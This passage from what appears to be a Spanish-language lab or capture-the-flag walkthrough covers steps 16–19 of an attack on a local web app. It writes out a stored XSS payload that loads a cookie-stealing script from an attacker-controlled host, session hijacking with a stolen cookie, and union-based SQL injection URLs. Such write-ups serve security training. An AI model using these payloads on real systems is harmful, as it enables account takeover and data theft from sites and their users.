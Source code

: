 ### 16º - Ataque para escalar privilegios (nuevo XSS)

**Acción:**

- Modificamos `pwned.js` para volver a capturar cookies.
    
- Usamos otro puerto:
    

```bash
python3 -m http.server 4646
```

- Inyectamos script en el campo de mensajes:
    

```html
<script src="http://192.168.1.52:4646/pwned.js"></script>
```

**Resultado:** Recibimos 4 cookies distintas. Con una accedemos como `Marion Riviere`.

**Explicación:** Riviere tiene permisos para aceptar pagos → objetivo al alcance.

---

### 17º - Acceso como Riviere

**Acción:** Pegamos la cookie correcta en `Storage`.

**Resultado:** Accedemos como el usuario con permisos de aceptación.

**Explicación:** El secuestro de sesión fue exitoso.

---

### 18º - Posible inyección SQL - parte 1

**Acción:** Desde la sesión de `Riviere`, accedemos a:

```
http://192.168.1.54/site.php?id=2
```

**Explicación:** Posible punto vulnerable a inyecciones SQL. A partir de aquí se inicia una nueva fase de explotación.

---

### 19º Acceso como usuario de finanzas --> Inyección SQL parte 2

**Acción:**  
`http://192.168.1.54/site.php?id=2 order by 2-- -`  
→ Vemos que desaparece el error (aprovechamos el error visible en la web para deducir el número de columnas).  
`http://192.168.1.54/site.php?id=2 union select 1,2-- -`  
→ Vemos que aparece en la web `1(2)`.  
→ Entendemos que el campo 2 es vulnerable y probamos:  
`http://192.168.1.54/site.php?id=2 union select 1,user()-- -`  
→ Nos muestra el usuario, por lo que tenemos un campo donde inyectar código y extraer datos.
